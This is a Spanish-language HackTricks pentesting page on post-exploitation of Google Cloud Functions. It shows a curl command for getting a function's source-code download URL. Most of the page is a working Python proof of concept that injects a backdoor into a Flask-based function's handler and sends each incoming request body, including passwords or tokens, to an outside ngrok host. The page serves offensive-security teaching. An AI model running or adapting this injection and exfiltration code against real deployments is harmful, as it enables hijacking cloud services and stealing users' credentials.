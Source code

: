 # GCP - Post Explotación de Cloud Functions

<details>

<summary><strong>Aprende a hackear AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* repositorios de github.

</details>

## Funciones en la Nube

Encuentra información sobre las Funciones en la Nube en:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.sourceCodeGet`

Con este permiso puedes obtener una **URL firmada para poder descargar el código fuente** de la Función en la Nube:

{% code overflow="wrap" %}
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

### Robar Solicitudes de Cloud Function

Si la Cloud Function está gestionando información sensible que los usuarios están enviando (por ejemplo, contraseñas o tokens), con suficientes privilegios podrías **modificar el código fuente de la función y exfiltrar** esta información.

Además, las Cloud Functions que se ejecutan en python utilizan **flask** para exponer el servidor web, si de alguna manera encuentras una vulnerabilidad de inyección de código dentro del proceso de flask (por ejemplo, una vulnerabilidad de SSTI), es posible **sobrescribir el manejador de la función** que va a recibir las solicitudes HTTP para una **función maliciosa** que puede **exfiltrar la solicitud** antes de pasarla al manejador legítimo.

Por ejemplo, este código implementa el ataque:
```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
"""HTTP Cloud Function.
Args:
request (flask.Request): The request object.
<https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
Returns:
The response text, or any set of values that can be turned into a
Response object using `make_response`
<https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
"""

if not last:
return injection()
else:
if error:
return error
else:
return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
try:
from urllib import request as urllib_request
req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
urllib_request.urlopen(req, timeout=0.1)
except Exception as e:
if not "read operation timed out" in str(e):
return str(e)

return ""

def new_http_view_func_wrapper(function, request):
def view_func(path):
try:
error = exfiltrate(request)
return function(request._get_current_object(), last=True, error=error)
except Exception as e:
return str(e)

return view_func
"""

def injection():
global new_function
try:
from flask import current_app as app
import flask
import os
import importlib
import sys

if os.access('/tmp', os.W_OK):
new_function_path = "/tmp/function.py"
with open(new_function_path, "w") as f:
f.write(new_function)
os.chmod(new_function_path, 0o777)

if not os.path.exists('/tmp/function.py'):
return "/tmp/function.py doesn't exists"

# Get relevant function names
handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
realpath = os.path.realpath(source_path) # Get full path

# Get the modules representations
spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
module_handler = importlib.util.module_from_spec(spec_handler)

spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
module_backdoor = importlib.util.module_from_spec(spec_backdoor)

# Load the modules inside the app context
with app.app_context():
spec_handler.loader.exec_module(module_handler)
spec_backdoor.loader.exec_module(module_backdoor)

# make the cloud funtion use as handler the new function
prev_handler = getattr(module_handler, handler_fname)
new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
return "Injection completed!"

except Exception as e:
return str(e)
```

